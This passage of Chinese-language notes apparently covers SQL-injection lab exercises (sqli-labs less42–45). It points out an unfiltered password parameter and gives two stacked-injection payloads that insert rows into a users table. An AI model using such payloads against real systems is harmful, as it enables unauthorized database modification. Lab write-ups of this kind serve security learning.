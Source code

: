 可以看到语句中的password没有过滤，看到这几个函数基本就想起了堆叠注入，所以payload如下：

```
';insert into users values(99,'zhong','zhong')#
```

## less43

跟42一样就是加了)的闭合。

## less44

还是一样，不过是盲注，可能不太好看到结果。

```
a';insert into users values(107,'aaa'，'aaa')#
```

## less45

好多都一样了开始，我看看后面的wp，觉得等以后闲着练手不错，就先不刷了。
